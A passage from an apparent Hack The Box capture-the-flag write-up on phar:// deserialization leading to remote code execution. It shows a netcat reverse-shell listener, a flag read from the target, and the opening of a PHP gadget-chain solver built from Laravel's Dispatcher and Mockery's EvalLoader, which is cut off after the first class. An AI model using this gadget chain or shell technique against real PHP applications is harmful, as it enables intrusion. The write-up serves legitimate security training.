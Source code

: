 We click view image on our added product and invoke the `phar://` scheme on that image filename and get a reverse shell.

<p align="center">
    <img src="assets/phar-rce.png">
</p>


```
$ nc -lvnp 1338
Connection from 192.168.2.2:50287
SHELL=/bin/bash script -q /dev/null
www@ab2c32a9ce57:/www$ cat /flag*
cat flag*
HTB{p0p..p0p..p0p..th0s3_ch41ns_0n_th3_w4y_t0_pr1s0n}
```

### Solver:
```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;

        function __construct()
        {
            $this->queueResolver = [new \Mockery\Loader\EvalLoader(), 'load'];
        }
    }
}

```